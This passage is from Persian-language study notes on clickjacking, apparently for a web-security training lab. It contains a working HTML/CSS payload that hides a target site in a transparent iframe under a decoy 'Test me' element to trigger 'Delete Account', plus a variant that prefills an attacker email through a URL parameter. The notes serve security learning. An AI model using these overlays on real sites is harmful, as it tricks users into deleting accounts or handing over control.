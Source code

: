 # Clickjacking

## Exploit
- حمله مقدماتی با حفاظت CSRF Token
  - در کد زیر پیکسل ها را تغییر می دهیم تا متن *Click me* روی کلید *Delete Account* بیفند ، برای این کار باید ابتدا opacity را برابر 0.1 قرار دهیم و پس از بدست آوردن موقعیت درست، آن را روی 0.0001 تنظیم کنیم
```HTML
<style>
   iframe {
       position:relative;
       width:700px;
       height: 500px;
       opacity: $opacity;
       z-index: 2;
   }
   div {
       position:absolute;
       top:300px;
       left:60px;
       z-index: 1;
   }
</style>
<div>Test me</div>
<iframe src="https://ac721fc61e66ddc6c0325ed500ca00d4.web-security-academy.net/my-account"></iframe>
```
- پر کردن خودکار فیلدهای فرم با استفاده از URL Param
  - برای این منظور در کد فوق تگ iframe را به شکل زیر تغییر می دهیم
```HTML
<iframe src="$url?email=hacker@attacker-website.com"></iframe>
```
- س
